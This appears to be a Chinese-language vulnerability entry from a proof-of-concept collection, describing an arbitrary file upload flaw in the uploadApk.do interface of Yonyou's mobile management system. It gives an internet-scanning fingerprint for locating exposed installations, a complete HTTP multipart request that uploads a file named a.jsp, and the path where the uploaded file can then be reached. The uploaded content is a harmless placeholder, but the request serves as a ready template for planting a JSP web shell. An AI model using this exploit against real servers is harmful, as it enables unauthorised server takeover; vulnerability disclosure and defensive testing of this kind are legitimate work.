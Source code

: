 # 用友 移动管理系统 uploadApk.do 任意文件上传漏洞

## 漏洞描述

用友 移动管理系统 uploadApk.do 接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>用友 移动管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="用友-移动系统管理"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1690733969075-570bd9ef-782e-45d7-acf7-b190f55e893b.png)

验证POC

```http
POST /maportal/appmanager/uploadApk.do?pk_obj= HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: JSESSIONID=4ABE9DB29CA45044BE1BECDA0A25A091.server
Connection: close

------WebKitFormBoundaryvLTG6zlX0gZ8LzO3
Content-Disposition: form-data; name="downloadpath"; filename="a.jsp"
Content-Type: application/msword

hello
------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1690734721298-07fdce57-e0e9-4130-8bea-9a5e4aebb19b.png)

```http
/maupload/apk/a.jsp
```